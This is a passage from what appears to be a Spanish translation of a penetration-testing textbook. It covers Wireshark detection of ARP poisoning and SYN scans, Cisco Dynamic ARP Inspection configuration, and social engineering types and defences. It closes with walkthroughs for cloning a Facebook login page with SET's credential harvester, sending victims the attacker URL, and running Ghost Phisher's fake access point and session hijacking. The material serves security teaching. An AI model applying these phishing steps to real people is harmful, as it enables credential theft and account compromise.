El dispositivo que tiene la dirección IP de 10.10.10.23respondió al remitente ( 10.10.10.16), indicando que su dirección MAC es 00:0c:29:24:be:4f. Para todas las comunicaciones futuras entre 10.10.10.16y 10.10.10.23, ambos dispositivos tienen las direcciones MAC de cada uno en su caché ARP. Estas direcciones MAC se utilizarán para reenviar tramas en la red.

En esta sección, aprendió a usar Wireshark para ver e interpretar los mensajes ARP que fluyen a través de una red. En la siguiente sección, veremos cómo detectar un ataque de envenenamiento de ARP en una red.


## Detección de ataques de envenenamiento de ARP

Como profesional de ciberseguridad, es posible que se le solicite que ayude a una organización a identificar cualquier ataque de envenenamiento de ARP en su infraestructura de red.

El envenenamiento ARP es el proceso en el que un atacante envía mensajes ARP falsos a la máquina de una víctima para crear el efecto de modificar las entradas en la caché ARP de la víctima. Esto haría que las máquinas de la víctima envíen tramas (tráfico) a un dispositivo no autorizado en la red en lugar de al destino legítimo.

Para explicar el proceso de detección de envenenamiento de ARP, utilizaremos la siguiente topología:



Con Wireshark, podemos buscar patrones específicos de tráfico entre dispositivos de punto final en la red. Con el arpfiltro de Wireshark, solo podremos ver mensajes **ARP, como se muestra en la siguiente captura de pantalla:**



En la columna **Información**, algunos de los paquetes tienen descripciones inusuales. Al expandir la información del **Marco 1** en el panel **Detalles del paquete**, podremos ver que un remitente (atacante) está enviando un mensaje ARP gratuito (respuesta ARP) a 10.10.10.23(una PC):



**El marco 1** indica 10.10.10.23que la dirección MAC de 10.10.10.1(la puerta de enlace) es 00:0c:29:7e:37:58. Esto hará que la víctima actualice su caché ARP para asignarla 10.10.10.1a 00:0c:29:7e:37:58. Sin embargo, esta dirección MAC pertenece a la máquina Kali Linux (del atacante).

La siguiente captura de pantalla muestra el contenido del marco que se envió desde el atacante a la puerta de enlace ( 10.10.10.1), indicando que la dirección MAC de la PC ( 10.10.10.23) ahora es 00:0c:29:7e:37:58:



Además, Wireshark ha detectado la duplicación de direcciones MAC dentro de los marcos ARP y ha emitido una advertencia en amarillo. Tenga en cuenta que Wireshark es un analizador de protocolos de red y no una aplicación de monitoreo de amenazas, por lo que se requiere la intervención humana para realizar un análisis más profundo del tráfico de red. Los dispositivos y herramientas de seguridad como Cisco Stealthwatch, AlienVault SIEM y OpenSOC pueden ayudar a los profesionales de la ciberseguridad a identificar amenazas rápidamente.

En esta sección, aprendió a detectar un ataque de envenenamiento de ARP mediante Wireshark. En la siguiente sección, veremos cómo detectar actividad sospechosa en una red.


## Detección de actividad sospechosa

En muchas organizaciones grandes, el departamento de TI suele implementar un **centro de operaciones de red** (**NOC**) para supervisar y resolver todos los problemas relacionados con la red. Con el aumento de las amenazas de seguridad, las organizaciones a veces pueden implementar un equipo dedicado que se centre en la ciberseguridad; este equipo se denomina **centro de operaciones de seguridad** (**SOC**).

Las responsabilidades del SOC van desde la supervisión y remediación de amenazas hasta las configuraciones de dispositivos de seguridad, el cumplimiento, el análisis forense e incluso la ingeniería inversa de malware.

Algunas de las actividades sospechosas que el SOC debe investigar incluyen las siguientes:

- Picos de tráfico anormales después del horario laboral
- Flujo de tráfico entrante y saliente inusual
- Solicitudes de DNS anormales

La siguiente captura de pantalla muestra la captura de Wireshark en mi laboratorio. Al observar atentamente el flujo de paquetes, podemos ver que se está realizando un escaneo de puertos:



La máquina que está realizando el escaneo de puertos tiene la dirección IP 10.10.10.16, mientras que el destino tiene la dirección IP 10.10.10.100. La columna **Información** proporciona un breve resumen de cada paquete. Aquí, podemos ver que se está enviando una sonda **SYN** a cada puerto de red. Podemos ver claramente que se está ejecutando un escaneo **SYN (Stealth en la red)**.

Para ver todas las conexiones TCP en Wireshark, siga estos pasos:

1. Haz clic en Estadísticas | Puntos finales .
2. A continuación, aparecerá la ventana **Puntos finales** 10.10.10.100, que muestra todas las conexiones que se han realizado al objetivo y los puertos que fueron investigados por el atacante:


Al trabajar en el campo de la ciberseguridad, comenzará a desarrollar la habilidad de reconocer patrones de tráfico anormales en el tráfico de red. Sin embargo, herramientas como Wireshark pueden ayudarlo en gran medida a filtrar y visualizar un tipo específico de paquete que fluye a través de una red.

En esta sección, aprendió los conceptos básicos sobre el uso de Wireshark para detectar actividad sospechosa en una red. En la siguiente sección, cubriremos varios métodos para prevenir y mitigar ataques MITM.


## Técnicas de remediación de MITM

En esta sección, nos centraremos en algunas técnicas que un profesional de TI puede emplear para detener y prevenir ataques MITM contra una LAN. Analizaremos los siguientes temas para conocer las funciones que desempeñan en una LAN para detener y prevenir ataques MITM:

- Encriptación
- **Inspección dinámica de ARP** (**DAI**)

## Encriptación

Durante un ataque MITM, el atacante puede interceptar todo el tráfico entre la víctima y el destino previsto para su comunicación. El atacante no podrá leer los datos cifrados, pero podrá ver los siguientes detalles a pesar del cifrado:

- Dirección IP origen
- Dirección IP de destino
- Puerto de origen
- Puerto de destino
- Protocolo de capa 3

En la máquina del atacante, solo podrán ver el tráfico que se ha enviado en texto sin formato. La siguiente captura de pantalla muestra una captura de Wireshark entre un cliente y un servidor Linux en una red:



El servidor está utilizando Telnet como método de acceso remoto. La entrada del usuario se muestra en rojo, mientras que las respuestas del servidor se muestran en azul. Aquí, podemos ver que Wireshark ha vuelto a ensamblar todos los paquetes Telnet de toda la conversación y los presenta en un bonito formato de diálogo. En otras palabras, podemos ver todo lo que sucedió durante la sesión Telnet entre ambos dispositivos. En esta captura, se registraron el nombre de usuario y la contraseña.

La prevención de ataques MITM es fundamental en las redes corporativas ya que cada segundo se envía información confidencial a toda la organización en muchos formatos.

En la siguiente sección, aprenderemos cómo configurar un conmutador Cisco IOS con DAI.

## Inspección ARP dinámica

DAI es una función de seguridad de los conmutadores que impide que los paquetes ARP no válidos entren en la red. Esta técnica se utiliza para evitar tanto los ataques MITM como los ataques de envenenamiento de ARP en una LAN.

En el siguiente diagrama, podemos ver a un atacante intentando realizar un ataque MITM en una red entre las PC y el enrutador:



Para evitar este tipo de ataques, Puedes utilizar la siguiente configuración en un conmutador Cisco IOS:

1. Habilite **la vigilancia DHCP** en la VLAN y configure el puerto de confianza en todos los puertos troncales y la interfaz que se conecta al servidor DHCP en la red. Se están realizando las siguientes configuraciones en un conmutador Cisco IOS para habilitar la vigilancia DHCP:

```markup
Switch(config)#ip dhcp snooping
Switch(config)#ip dhcp snooping database DHCPsnoop
Switch(config)#ip dhcp snooping vlan 2
Switch(config)#interface gigabitEthernet 0/1
Switch(config-if)#ip dhcp snooping trust

```

**La vigilancia DHCP** se utiliza para evitar que un usuario malintencionado conecte un **servidor DHCP no autorizado** a una red corporativa. El puerto **de confianza**DHCP Offer se utiliza para permitir el paso de los paquetes y DHCP ACKa la red, mientras que los demás puertos (puertos no confiables) solo permiten el paso de los paquetes DHCP Discovery DHCP Request.

Los puertos troncales son aquellos que pueden transportar el tráfico de varias VLAN simultáneamente. Los puertos troncales son puertos que se encuentran entre un conmutador y otro, o entre un conmutador y el enrutador.

1. Habilita la inspección ARP en la VLAN y configura todos los puertos troncales para que sean puertos confiables:

```markup
Switch(config)#ip arp inspection vlan 2
Switch(config)#interface gigabitEthernet 0/1
Switch(config-if)#ip arp inspection trust
Switch(config-if)#exit

```

2. Crea una **lista de control de acceso** de capa 2 (**ACL**) en el conmutador para vincular una dirección IP a una dirección MAC:

```markup
Switch(config)#arp access-list ARP-Inspect
Switch(config-arp-nacl)#permit ip host 10.10.10.1 mac 000b.be56.eb02
Switch(config-arp-nacl)#exit

```

3. Asigna la ACL de capa 2 a la VLAN. El siguiente comando habilitará la inspección de ARP en el conmutador:

```markup
Switch(config)#ip arp inspection filter ARP-Inspect vlan 2


```

Ahora que podemos implementar DAI en un conmutador Cisco IOS, echemos un vistazo a algunas técnicas de corrección adicionales.

## Técnicas de remediación del olfateo

Detectar y mitigar un sniffer de red puede ser un poco complicado. Un sniffer de red es casi indetectable en una red, ya que escucha pasivamente el tráfico de red entrante. El uso de protocolos seguros como HTTPS, **Secure File Transfer Protocol** (**SFTP**) y **Secure Shell** (**SSH**) evitará que un sniffer vea los mensajes originales que se enviaron entre dispositivos.

Además, puedes utilizar Nmap para descubrir sniffers en una red corporativa. Para ello, utiliza el siguiente comando:

```markup
nmap -sV --script=sniffer-detect <objetivo>

```

Asegúrate de escanear toda tu subred y cualquier otra red que sea propiedad de tu organización. Además, los profesionales de TI ocasionalmente realizan un barrido físico de la red corporativa para descubrir si hay dispositivos no autorizados conectados a la LAN corporativa.


## Resumen

Durante este capítulo, cubrimos los aspectos básicos de ARP y cómo los atacantes aprovechan las vulnerabilidades de ARP para realizar ataques de envenenamiento de ARP y ataques MITM en las redes. Además, analizamos el uso de Wireshark para ayudarnos a analizar el tráfico de la red y poder detectar rápidamente los ataques MITM y ARP.

Ahora, tienes los conocimientos y las habilidades para comprender cómo se pueden detectar los ataques ARP y MITM mediante Wireshark y cómo implementar controles de seguridad en tus conmutadores de red. Espero que este capítulo te resulte útil e informativo para tus estudios y tu carrera profesional.

En el Capítulo 13, *Ataques del lado del cliente: Ingeniería social*, aprenderás sobre varias técnicas de ingeniería social.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Cómo puedes evitar que un atacante lea tus datos?
2. ¿Qué técnica puede realizar un atacante para interceptar el tráfico de red de una víctima?
3. ¿Qué control de seguridad admite un conmutador Cisco IOS para evitar un ataque MITM?
4. ¿Por qué un profesional de TI no debería utilizar Telnet?
5. ¿Cómo puedes detectar un sniffer en una red?


## Otras lecturas

- **Documentación de Wireshark** : https://www.wireshark.org/docs/


# Ataques del lado del cliente: ingeniería social

Muchas organizaciones tienden a creer que tener un único sistema de protección en el perímetro de su red es suficiente para salvaguardar sus activos. Tener un único firewall de red es simplemente una defensa de una sola capa; hay muchas formas en las que los ataques pueden eludir los sistemas y controles de seguridad dentro de una red corporativa. Una técnica que se utiliza habitualmente es manipular a una persona para que haga algo o revele información confidencial al atacante. Esto se conoce como **ingeniería social** .

Como evaluador de penetración, es importante comprender los conceptos, técnicas y aspectos prácticos esenciales de este tema, ya que te ayudarán a obtener credenciales de usuario, acceso a sistemas y redes en una red corporativa y otros detalles confidenciales sobre un empleado y la red de destino. Durante el transcurso de este capítulo, compararás y contrastarás las diferentes formas de ataques de ingeniería social mientras utilizas varias herramientas y técnicas para crear un sitio web de phishing para recopilar las credenciales de las víctimas.

En este capítulo cubriremos los siguientes temas:

- Fundamentos de ingeniería social
- Tipos de ingeniería social
- Defensa contra la ingeniería social
- Reconocimiento de ingeniería social (doxing)
- Planificación para cada tipo de ataque de ingeniería social
- Herramientas de ingeniería social


## Requerimientos técnicos

El siguiente es el requisito técnico para este capítulo:

- Kali Linux


## Fundamentos de ingeniería social

La ingeniería social es una técnica que utiliza un atacante o un evaluador de penetración para convencer a una persona de que revele información confidencial. La ingeniería social se puede llevar a cabo contra el servicio de asistencia técnica de la empresa, el equipo administrativo, el personal de TI, el equipo ejecutivo, etc. Cualquier empleado con acceso a información corporativa valiosa es definitivamente un objetivo prioritario; el desafío es manipular a la víctima para que crea todo lo que le están diciendo y ganarse su confianza. Una vez que se ha obtenido la confianza de la víctima, el siguiente paso es explotarla.

Las siguientes son las diversas formas en que la ingeniería social puede tener un gran impacto en una organización:

- Crear una pérdida de ingresos debido a la exposición de información confidencial, lo que provocará que los clientes pierdan la confianza en la empresa.
- Pérdida de privacidad debido a que los datos corporativos son robados y pueden filtrarse en línea.
- Pueden surgir demandas y arbitrajes debido al incumplimiento de las políticas corporativas.

Los siguientes son los pilares sobre los que se construye la ingeniería social:

- La confianza humana es un componente esencial de todos los ataques de ingeniería social.
- Un atacante (ingeniero social) generalmente pide algún tipo de ayuda o asistencia y la víctima tiende a obedecer debido a un sentido de buena voluntad y, a veces, por obligación moral.
- La falta de formación sobre concienciación en seguridad para los empleados convierte a la empresa en un blanco más fácil.

La implementación de políticas de seguridad es definitivamente una buena práctica para garantizar la seguridad de todos los activos y empleados corporativos. Sin embargo, las políticas de seguridad no siempre son efectivas para prevenir un ataque de ingeniería social. Imaginemos que un evaluador de penetración llama al servicio de asistencia de una organización, haciéndose pasar por uno de los gerentes superiores y solicitando cambiar la contraseña de su cuenta de usuario corporativa. Es posible que el personal del servicio de asistencia no le pida al interlocutor que proporcione más verificación de su identidad y que simplemente realice la tarea y proporcione la nueva contraseña para la cuenta de usuario por teléfono. El atacante ahora puede usar estas credenciales de usuario para obtener acceso a las cuentas de correo electrónico y al resto de la red corporativa.

Generalmente no existe ningún método para garantizar la seguridad completa contra ataques de ingeniería social, ya que ningún software o hardware de seguridad es capaz de defenderse completamente contra dichos ataques.

En la siguiente sección, discutiremos los diferentes tipos de ataques de ingeniería social.


## Tipos de ingeniería social

La ingeniería social se presenta de muchas formas; los siguientes son los diferentes tipos de ingeniería social:

- **Ingeniería social basada en humanos** : este tipo de ingeniería social recopila información confidencial de otra persona a través de la interacción, es decir, conversando con un individuo.
- **Ingeniería social basada en computadora** : este tipo de ingeniería social se realiza utilizando tecnologías digitales como computadoras.
- **Ingeniería social basada en dispositivos móviles** : en la ingeniería social basada en dispositivos móviles, el atacante utiliza aplicaciones móviles para realizar ataques contra la víctima.
- **Ingeniería social por teléfono** : esta técnica implica una llamada de voz a la víctima, haciéndose pasar por alguien en quien esta pueda confiar.
- **Ingeniería social a través de las redes sociales** : esto implica utilizar plataformas de redes sociales para engañar a las personas para que proporcionen detalles confidenciales.

Veamos cada proceso de ingeniería con más detalle.

## Ingeniería social basada en el ser humano

En la ingeniería social basada en humanos, el atacante se hace pasar por alguien con autoridad. El atacante a veces se hace pasar por un usuario final legítimo proporcionando una identidad falsa y pidiendo información confidencial. Además, el atacante puede hacerse pasar por un usuario importante de la organización, como un director o un miembro superior del personal, y solicitar un cambio de contraseña en la cuenta de usuario de la víctima. Una forma sencilla de suplantación de identidad que suele hacer que un usuario confíe en ti rápidamente es haciéndose pasar por soporte técnico. Imagina llamar a un empleado mientras te haces pasar por un técnico de TI y solicitarle al usuario que proporcione los datos de su cuenta de usuario. Por lo general, los usuarios finales no siempre son conscientes de las amenazas basadas en humanos en la ciberseguridad y confiarían rápidamente en alguien que se hace pasar por soporte técnico.

En las siguientes secciones, analizaremos en profundidad los distintos tipos de técnicas de ingeniería social basadas en humanos, incluidas las siguientes:

- Escuchas clandestinas
- Navegación por los hombros
- Buceo en contenedores de basura

Empecemos con las escuchas clandestinas.

## Escuchas clandestinas

La escucha clandestina consiste en escuchar conversaciones entre personas y leer sus mensajes sin autorización. Esta forma de ataque incluye la interceptación de cualquier transmisión entre usuarios, como audio, vídeo o incluso comunicación escrita.

A continuación, analizaremos el concepto de "espionaje desde el hombro".

## Navegación por los hombros

Muchos de nosotros somos culpables de mirar por encima del hombro a alguien. ¿Alguna vez has pasado por delante de un compañero de trabajo mientras introducía datos en un sitio web o realizaba una tarea, con la esperanza de poder ver lo que estaba haciendo?

La técnica de espiar por encima del hombro de alguien consiste en mirar por encima del hombro mientras está usando su computadora. Esta técnica se utiliza para recopilar información confidencial, como números PIN, identificaciones de usuario y contraseñas. Además, la técnica de espiar por encima del hombro se puede realizar desde distancias más largas utilizando dispositivos como cámaras digitales.

En la siguiente sección, cubriremos el buceo en contenedores de basura.

## Buceo en contenedores de basura

El hurgar en la basura es una forma de ingeniería social basada en humanos en la que el atacante revisa la basura de otra persona en busca de datos confidenciales o sensibles. Las víctimas que desechan de forma insegura elementos confidenciales, como documentos corporativos, tarjetas de crédito vencidas, facturas de servicios públicos y registros financieros, se consideran valiosos para un atacante.

A continuación, cubriremos los ataques de ingeniería social basados en computadoras.

## Ingeniería social basada en computadora

La mayoría de nosotros hemos experimentado alguna forma de ingeniería social basada en computadoras en el pasado. En este tipo de ingeniería, el atacante utiliza dispositivos informáticos que lo ayudan a engañar a la víctima para que revele información confidencial o sensible.

Hay dos formas principales de ataque en esta categoría:

- Suplantación de identidad
- Suplantación de identidad (spear phishing)

Las siguientes son algunas otras formas de ingeniería social basada en computadora:

- Ventanas emergentes que solicitan información del usuario
- Correos electrónicos no deseados
- Cartas en cadena
- Cartas falsas

En este capítulo solo analizaremos el phishing y el spear phishing; sin embargo, puedes investigar los demás en tu tiempo libre.

Comencemos echando un vistazo al phishing.

## Suplantación de identidad

Los atacantes suelen enviar un correo electrónico ilegítimo que contiene información falsa y lo enmascaran para que parezca un correo electrónico legítimo de una persona o fuente de confianza. Esta técnica se utiliza para engañar a un usuario para que proporcione información personal u otros detalles confidenciales.

Imagine que recibe un correo electrónico: el nombre del remitente es el nombre de su banco y el cuerpo del correo electrónico tiene instrucciones que le informan que debe hacer clic en un enlace proporcionado para restablecer sus credenciales bancarias en línea. Los mensajes de correo electrónico generalmente se nos presentan en formato de texto enriquecido, que proporciona un texto muy claro y fácil de leer. Este formato oculta el código HTML del mensaje real y muestra texto sin formato en su lugar. En consecuencia, un atacante puede enmascarar fácilmente la URL para enviar al usuario a un sitio web malicioso. El destinatario del correo electrónico de phishing puede no ser capaz de identificar detalles engañosos o alterados y hacer clic en el enlace.

A continuación, analizaremos el spear phishing.

## Suplantación de identidad (spear phishing)

En un ataque de phishing normal, el atacante envía cientos de mensajes de correo electrónico genéricos a direcciones de correo electrónico aleatorias a través de Internet. Con el phishing selectivo, el atacante envía mensajes especialmente diseñados a un grupo específico de personas de una empresa. Los ataques de phishing selectivo tienen tasas de respuesta más altas en comparación con los ataques de phishing normales.

En la siguiente sección, cubriremos los ataques de ingeniería social basados en dispositivos móviles.

## Ingeniería social basada en dispositivos móviles

La ingeniería social para dispositivos móviles puede incluir la creación de una aplicación maliciosa para teléfonos inteligentes y tabletas con una característica muy atractiva que incite a los usuarios a descargar e instalar la aplicación en sus dispositivos. Para ocultar la verdadera naturaleza de la aplicación maliciosa, los atacantes utilizan nombres similares a los de las aplicaciones más populares en las tiendas de aplicaciones oficiales. Una vez que la aplicación maliciosa se ha instalado en el dispositivo de la víctima, la aplicación puede recuperar y enviar las credenciales de usuario de la víctima al atacante.

Otra forma de ingeniería social basada en dispositivos móviles se conoce como **smishing** . Este tipo de ataque implica que los atacantes envían mensajes SMS ilegítimos a personas al azar con una URL maliciosa, pidiendo a la víctima potencial que responda proporcionando información confidencial.

Los atacantes a veces envían mensajes SMS a personas al azar, haciéndose pasar por representantes de su banco. El mensaje contiene una URL que se parece mucho al nombre de dominio oficial del banco legítimo. Una persona desprevenida puede hacer clic en el enlace malicioso que la lleva a un portal de inicio de sesión falso que capturará el nombre de usuario y la contraseña de la víctima e incluso descargará una carga maliciosa en el dispositivo móvil de la víctima.

En la siguiente sección, cubriremos la ingeniería social a través de las redes sociales.

## Ingeniería social a través de redes sociales

Los atacantes suelen intentar crear un perfil falso y establecer comunicación con personas. Se hacen pasar por otra persona mientras intentan engañar a la víctima para que revele detalles confidenciales sobre sí mismos. Además, hay muchos casos en los que la cuenta de una persona se ve comprometida y los atacantes utilizan la cuenta comprometida para comunicarse con las personas de la lista de amigos o conexiones de la víctima.

Los ataques a menudo utilizan cuentas de usuarios de redes sociales comprometidas para crear una red muy grande de amigos/conexiones para recopilar información y detalles confidenciales.

Los siguientes son algunos métodos que se utilizan para atraer a los empleados de una organización objetivo:

- Creando un grupo de usuarios falso
- Utilizar una identidad falsa utilizando los nombres de empleados de la organización objetivo
- Conseguir que un usuario se una a un grupo de usuarios falso y luego pedirle que proporcione credenciales como su fecha de nacimiento y el nombre de su cónyuge.

Los sitios de redes sociales como Facebook y LinkedIn son enormes depósitos de información a los que tienen acceso muchas personas. Es importante que los usuarios estén siempre al tanto de la información que están revelando debido al riesgo de explotación de la información. Al utilizar la información que se encuentra en los sitios de redes sociales, como las publicaciones realizadas por los empleados de las organizaciones, los atacantes pueden realizar ataques de ingeniería social dirigidos a la organización objetivo.

En la siguiente sección, cubriremos los ataques de ingeniería social basados en teléfonos.

## Ingeniería social basada en el teléfono (vishing)

**Vishing** es un término que se utiliza para describir un ataque de ingeniería social que se produce a través de un teléfono. Hay muchos casos en los que las personas han recibido llamadas de un atacante que afirma que llaman desde la compañía de cable o el banco local y les pide a las víctimas que revelen información confidencial, como su fecha de nacimiento, número de permiso de conducir, datos bancarios e incluso credenciales de cuenta de usuario.

Por lo general, el atacante llama al objetivo haciéndose pasar por una persona de una organización legítima o autorizada para solicitarle detalles confidenciales. Si este primer enfoque no funciona, el atacante puede volver a llamar haciéndose pasar por una persona más importante o un agente de soporte técnico, en un intento de engañar al usuario para que proporcione información confidencial.

Además, cuando los atacantes proporcionan una identidad falsa durante un ataque de vishing, suelen proporcionar una referencia a una organización legítima desde la que llaman para generar un nivel de confianza con la víctima potencial. Cuando las víctimas no caen en la trampa, a veces se utilizan amenazas como "*Su cuenta será deshabilitada si no puede proporcionarnos su nombre de usuario y contraseña*". Las víctimas a veces lo creen y proporcionan la información solicitada.

Una vez que haya completado esta sección, comprenderá las características de los distintos tipos de ataques de ingeniería social. En la siguiente sección, cubriremos los aspectos básicos de la defensa contra la ingeniería social.


## Defensa contra la ingeniería social

Las siguientes son algunas tácticas generales que se pueden utilizar para defenderse de ataques comunes de ingeniería social:

- Protegiendo la seguridad de su perímetro
- Protección del servicio de asistencia técnica y del personal en general
- Detección de correos electrónicos de phishing
- Contramedidas adicionales

En las próximas secciones cubriremos estos temas con más detalle.

## Protegiendo la seguridad de su perímetro

Los atacantes utilizan métodos como la suplantación de identidad y el seguimiento (seguir a alguien hasta una zona segura) para entrar en el complejo de una organización. Para evitar este tipo de ataques, las organizaciones deben implementar credenciales de identificación para todos los miembros del personal, sistemas de autenticación basados en tokens o biométricos y capacitación continua de los empleados y los guardias de seguridad para que tomen conciencia de la seguridad.

## Protección del servicio de asistencia técnica y del personal en general

Los atacantes utilizan el espionaje, el espionaje por encima del hombro y la suplantación de identidad para obtener información confidencial del servicio de asistencia técnica de la organización y de su personal en general. A veces, los ataques pueden ser sutiles y persuasivos; otras veces, pueden ser un poco intimidantes y agresivos para presionar a un empleado con la esperanza de que revele información confidencial. Para proteger al personal de este tipo de ataques, las organizaciones deben asegurarse de que se imparta formación frecuente a los empleados para concienciarlos sobre estos peligros y hacerles saber que nunca deben revelar información confidencial.

## Contramedidas adicionales

Las siguientes son medidas adicionales que pueden reducir la amenaza de ataques de ingeniería social contra una organización:

- Implemente una política de contraseñas que garantice que los usuarios cambien sus contraseñas periódicamente y eviten reutilizar contraseñas anteriores. Esto garantizará que si la contraseña de un empleado se filtra mediante un ataque de ingeniería social, la contraseña en manos del atacante podría quedar obsoleta debido a la política de contraseñas.
- Asegúrate de que los guardias de seguridad escolten a todos los huéspedes y visitantes mientras se encuentren en el recinto.
- Implemente sistemas adecuados de control de acceso con seguridad física. Esto incluye cámaras de vigilancia, cerraduras de puertas, cercas adecuadas, medidas de seguridad biométricas y más para mantener a personas no autorizadas fuera de las áreas restringidas.
- Implementar la clasificación de la información. La clasificación de la información permite que sólo aquellos con la autorización de seguridad requerida puedan ver ciertos datos y tener acceso a ciertos sistemas.
- Realizar verificaciones de antecedentes de los nuevos empleados e implementar un proceso de terminación adecuado.
- Implemente protección de seguridad de endpoints de proveedores confiables. La protección de endpoints se puede utilizar para monitorear y prevenir ataques cibernéticos, como ataques de ingeniería social, correos electrónicos de phishing y descargas maliciosas, contra las computadoras y laptops de los empleados.
- Aplicar la autenticación de dos factores cuando sea posible.

En la siguiente sección, veremos cómo detectar un correo electrónico de phishing.

## Detección de correos electrónicos de phishing

Los proveedores de correo electrónico siempre están implementando nuevas medidas para combatir los correos electrónicos no deseados y evitar que los mensajes de phishing ingresen al buzón de correo de un usuario. Sin embargo, a veces, algunos correos electrónicos de phishing logran llegar a su buzón de correo. A continuación, se muestran algunas formas de identificar una estafa de phishing:

- Si el correo electrónico es de un banco, una organización o incluso un sitio de redes sociales y tiene un mensaje de saludo genérico.
- Los correos electrónicos de phishing pueden contener archivos adjuntos maliciosos.
- Los correos electrónicos de phishing a veces contienen errores gramaticales y palabras mal escritas.
- La dirección de correo electrónico del remitente no parece legítima.
- Contiene enlaces a sitios web falsificados o dominios maliciosos.

El siguiente es un correo electrónico que recibí hace algunos años. El nombre y el correo electrónico del remitente son legítimos, ya que se trata de alguien a quien conozco. Sin embargo, el mensaje parece ser diferente de todos los demás correos electrónicos anteriores que he recibido de ellos:


La última línea contiene un hipervínculo que dice "**Echa un vistazo aquí**". Una persona que no conozca la seguridad en Internet puede hacer clic en el enlace y ser dirigida a un sitio malicioso, donde se puede descargar y ejecutar una carga útil, lo que provocaría que la computadora se vea comprometida.

Echemos un vistazo más de cerca a los detalles de la fuente del correo electrónico:



La fuente del mensaje nos muestra todo el código HTML del mensaje. Si nos fijamos bien, veremos que el atacante ha creado un hipervínculo utilizando una URL más corta para enmascarar la URL real.

En esta sección, hablamos sobre cómo se puede identificar un correo electrónico de phishing y cómo un atacante utiliza la ofuscación de URL durante el phishing para evitar que el objetivo vea la URL web verdadera. En la siguiente sección, cubriremos los aspectos básicos del doxing.


## Reconocimiento de ingeniería social (doxing)

El doxing es una técnica que consiste en que un atacante utiliza recursos en línea y públicos, como motores de búsqueda y sitios de redes sociales, para recopilar información privada sobre una persona u organización específica. El atacante puede luego utilizar dicha información contra el objetivo.

Durante un ataque de doxing, el atacante puede recopilar información personal sobre alguien buscando la información publicada por la víctima. A menudo, en los sitios web de redes sociales, las personas publican mucha información personal sobre sí mismas, sus familias y asuntos laborales. Cuando se les pregunta si les preocupa que alguien robe su información, la respuesta más común es " *No tengo nada que ocultar* " o " *No perderé nada si publico una foto o un comentario* ".


Lo que mucha gente no sabe es que una persona malintencionada puede tomar una captura de pantalla de su publicación y luego modificarla con fines maliciosos.

En la siguiente sección, aprenderemos cómo planificar un ataque de ingeniería social.


## Planificación para cada tipo de ataque de ingeniería social

El objetivo principal de un ataque de ingeniería social es obtener información confidencial de la víctima o manipularla para que realice una acción que la ayude a comprometer el sistema o la organización de destino. Sin embargo, para comenzar con cualquier tipo de ataque, se debe realizar una gran cantidad de investigación para averiguar cómo funciona el objetivo; un atacante debe encontrar respuestas a preguntas como las siguientes:

- ¿La organización objetivo subcontrata sus servicios de TI?
- ¿El objetivo tiene un servicio de asistencia técnica?

Además de realizar esta investigación, al realizar ingeniería social, usted debe ser capaz de elaborar estrategias rápidamente y leer las emociones de la víctima con respecto a cómo reacciona ante usted.

Como ingeniero social, es bueno desarrollar las siguientes habilidades:

- Sea creativo durante las conversaciones
- Tener buenas habilidades de comunicación, tanto en persona como por teléfono.
- Buenas habilidades interpersonales
- Tener un carácter comunicativo y amigable.

Estas habilidades te ayudarán a ser una **persona sociable**, es decir, alguien que es amigable y se relaciona con los demás. Esta característica es beneficiosa ya que te ayudará a evaluar mejor el estado de ánimo y las respuestas de la víctima durante la comunicación en vivo, ya sea por teléfono o durante una conversación en persona. Es una especie de conjunto de habilidades psicológicas que te permite leer a alguien y manipular su comportamiento para lograr que reaccione de cierta manera o revele información confidencial.

A continuación, demostraremos cómo utilizar varias herramientas de ingeniería social.


## Herramientas de ingeniería social

En esta sección, cubriremos un par de herramientas que se utilizan para realizar ataques de ingeniería social:

- El **kit de herramientas de ingeniería social** (**SET**)
- Suplantador fantasma

Veamos ambos con más detalle.

## Kit de herramientas de ingeniería social

SET es un marco de código abierto diseñado para realizar varios tipos de ataques de ingeniería social y que incluye la funcionalidad para crear ataques personalizados. Usemos SET para crear una página de Facebook falsa para capturar las credenciales de los usuarios.

Para comenzar, en Kali Linux, haz clic en Aplicaciones | Herramientas de ingeniería social | Kit de herramientas de ingeniería social :

1. Cuando se abra SET, se le presentarán algunas opciones. Elija la opción 1para acceder a los ataques de ingeniería social dentro de SET:



2. Ahora estará disponible una lista de diferentes tipos de ataques. Dado que estamos intentando engañar a un usuario para que proporcione sus credenciales de inicio de sesión, elija 2) Vectores de ataque a sitios web :



3. Dado que nuestro objetivo principal es capturar las credenciales del usuario, elija el método de ataque Credential Harvester 3) :



4. SET ofrece plantillas preinstaladas para sitios de redes sociales y le permite crear un clon de un sitio web. En este ejercicio, elija 2) Site Cloner :



Cuando se clona un sitio web, SET inyecta un código especial en los campos de nombre de usuario y contraseña, lo que le permite capturar y mostrar cualquier intento de inicio de sesión en tiempo real.

5. Proporciona la dirección IP a tu máquina atacante. Si estás en una red pública, establece una dirección IP pública. Recuerda que esta dirección se le proporcionará a la víctima. A continuación, especifica la URL del sitio web que se clonará con SET:



6. Una vez que el proceso de clonación se haya completado con éxito, crea una URL con la dirección IP del atacante y envíasela a tu víctima. La URL debe tener el siguiente formato: https://10.10.10.16/ . Puedes utilizar otras técnicas para enmascarar la dirección IP real y hacer que parezca legítima:



Una vez que la víctima haya ingresado sus credenciales de usuario, SET completará el nombre de usuario y la contraseña en la interfaz de SET, como se muestra en la captura de pantalla anterior.

En la siguiente sección, demostraremos cómo utilizar Ghost Phisher.

## Suplantador fantasma

Otra herramienta de ingeniería social sorprendente es **Ghost Phisher**. Ofrece una serie de utilidades fáciles de usar para crear ataques de ingeniería social muy rápidamente con su **interfaz gráfica de usuario** (**GUI**).

Para comenzar a utilizar Ghost Phisher, siga estos pasos:

1. En Kali Linux, haz clic en **Aplicaciones** | **Herramientas de ingeniería social** | **Ghost Phisher** .
2. Una vez abierta la herramienta, se te presentarán las opciones de la pestaña principal, es decir, **Fake Access Point** :



Una vez que su adaptador de red inalámbrica esté conectado a su máquina Kali Linux, vaya a la interfaz inalámbrica en el menú y personalice la configuración del Punto de acceso falso según sus preferencias.

Ghost Phisher le permite crear un servidor DNS falso y un servidor HTTP falso.

1. Para crear un servidor DHCP falso, simplemente selecciona la pestaña **Servidor DHCP falso** y agregue la información necesaria, como se muestra en la siguiente captura de pantalla:



1. La pestaña **Secuestro de sesión** le permite realizar un ataque MITM y capturar sesiones en vivo:



Asegúrate de configurar la puerta de enlace predeterminada de su red antes de iniciar el ataque de secuestro de sesión en Ghost Phisher.

